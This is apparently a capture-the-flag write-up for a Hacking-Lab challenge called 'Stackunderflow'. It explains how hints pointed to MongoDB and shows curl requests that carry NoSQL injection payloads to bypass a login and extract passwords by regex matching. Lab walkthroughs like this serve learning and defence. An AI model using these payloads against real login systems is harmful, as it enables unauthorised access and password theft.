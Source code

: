# 10 - Stackunderflow

*Check out this new Q&A site. They must be hiding something but we don't know where to search.*

[Stackunderflow](http://whale.hacking-lab.com:3371/)

---

My first ideas were to try SQL injection, tamper question IDs and do some basic password guessing. With no luck.
One must be very careful to catch the hints.. 
For example:

*We're currently migrating our database to support **humongous** amounts of questions. During this time it's not possible
to create or answer questions or create new accounts.*

Or

*Which NoSQL database do you use?*

*Depends on the use case. Try Redis, Neo4J, Couchbase, Cassandra or **MongoDB** just to name a few.*


This all points to the famous NoSQL database [MongoDB](https://www.mongodb.com/).

There is also a hint hidden in `robots.txt` but it is pretty useless: `Maybe the_admin knows more about the flag.`

This article [HACKING NODEJS AND MONGODB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
helped me a lot.

This is how you can bypass the login:
```
curl -H "Content-Type: application/json" -d '{ "username": "the_admin", "password": {"$gt": ""} }' http://whale.hacking-lab.com:3371/login
```

I was curious what is the admin's password. This payload helped me to guess the password characters.
```
curl -H "Content-Type: application/json" -d '{ "username": "the_admin", "password": {"$regex": "^[A-Za-z0-9_]*$"} }' http://whale.hacking-lab.com:3371/login
```

And with help of my [PasswordCracker](../../../src/main/kotlin/cz/vernjan/ctf/he19/ch10/PasswordCracker.kt) I was able to recover the admin's password: `76eKxMEQFcfG3fPe`

I logged in and learnt that I need to recover the password of user `null`.

```
Should my password really be the flag?
Asked by null

No, I think we should change it.
Let's do it after the migration!
The migration is done but the password is still the same...
```

Just changing the username and running [PasswordCracker](../../../src/main/kotlin/cz/vernjan/ctf/he19/ch10/PasswordCracker.kt) once more.
The null's password (and also the flag) is: `N0SQL_injections_are_a_thing`
